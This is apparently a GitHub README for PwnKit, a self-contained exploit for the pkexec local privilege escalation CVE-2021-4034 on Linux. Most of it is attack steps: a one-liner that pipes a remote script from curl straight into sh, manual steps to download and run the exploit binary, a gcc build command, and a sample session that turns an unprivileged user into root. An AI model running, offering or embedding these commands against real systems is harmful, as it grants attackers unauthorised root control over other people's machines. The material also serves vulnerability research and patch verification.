


## CVE-2021-4034 - Pkexec Local Privilege Escalation

Self-contained exploit for CVE-2021-4034 - Pkexec Local Privilege Escalation

## Usage

Should work out of the box on vulnerable Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

```plain
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```



### Manually

```plain
curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
chmod +x ./PwnKit
./PwnKit # interactive shell
./PwnKit 'id' # single command
```



### Patched

Running the exploit against patched versions will yield the following output.


### Building Pwnkit

```plain
gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

Pre-built below:

{}

## Examples

```plain
unpriv_user@host:~$ id
uid=1338(unpriv_user) gid=1338(unpriv_user) groups=1338(unpriv_user)
unpriv_user@host:~$ ./PwnKit 
root@host:~# id
uid=0(root) gid=0(root) groups=0(root),1338(unpriv_user)
```

## URL List

- [Github.com - Pwnkit](https://github.com/ly4k/PwnKit)
- [Github.com - CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034/)
- [Blog.qualys.com - PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034)
